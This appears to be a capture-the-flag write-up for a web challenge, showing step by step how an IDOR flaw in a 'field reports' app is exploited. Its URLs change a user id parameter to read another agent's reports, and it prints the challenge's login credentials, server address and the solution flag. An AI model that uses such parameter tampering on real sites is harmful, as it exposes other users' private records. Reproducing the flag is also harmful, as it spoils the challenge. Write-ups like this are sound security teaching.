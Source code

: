 # 🕵️‍♀️ Juche Jaguar Field Reports – IDOR Exploit

**Category:** Web Security\
**Points:** Unknown\
**Type:** Insecure Direct Object Reference (IDOR)

---

### 🎯 Objective

Gain access to the Supreme Leader’s secret pizza discount code hidden within the Juche Jaguar Field Reports web app.

---

### 🛠️ Tools & Techniques Used

- Web Browser (manual testing)
- IDOR exploitation
- URL parameter tampering
- Leetspeak logic

---

### 🔍 Step-by-Step Exploit

#### Step 1: Initial Access

Logged in to the portal at:

```
http://35.245.106.190/login.html
```

with weak credentials:

```
Username: 1234
Password: spudpotato
```

#### Step 2: Observing Accessible Reports

The dashboard displays 5 reports for Agent 1234:

```
UV12WX, YZ34AB, CD56EF, GH78IJ, KL90MN
```

Each report is accessible via:

```
http://35.245.106.190/dashboard.php?id=1234&code=<ReportCode>
```

#### Step 3: Spotting the Vulnerability

The use of predictable parameters (`id` and `code`) indicated a likely IDOR vulnerability.

#### Step 4: Interpreting the Hint

Hint mentioned a “leet” agent. Applied leetspeak:

```
leet → 1337
```

#### Step 5: Exploring Agent 1337’s Reports

Tried:

```
http://35.245.106.190/dashboard.php?id=1337
```

Success! New reports for EliteSpud appeared:

```
YZ12AB, CD34EF, GH56IJ, KL78MN, OP90QR
```

#### Step 6: Brute-Forcing the Report Codes

Manually tried each:

```
http://35.245.106.190/dashboard.php?id=1337&code=YZ12AB
...
http://35.245.106.190/dashboard.php?id=1337&code=GH56IJ
```

#### 🧀 Step 7: Jackpot – The Pizza Flag

Accessing the GH56IJ report revealed:

```
"I extracted the Supreme Leader’s secret pizza-order discount code:
C1{ID0R_F13LD_R3P0RT}"
```

---

### 🏁 Flag

```
C1{ID0R_F13LD_R3P0RT}
```

---

### 📝 Takeaways

- IDOR vulnerabilities are often present in apps with parameterized access control.
- Manual testing can be very effective when parameters are predictable.
- Leetspeak hints are often literal in CTFs — always try numeric substitution!

---

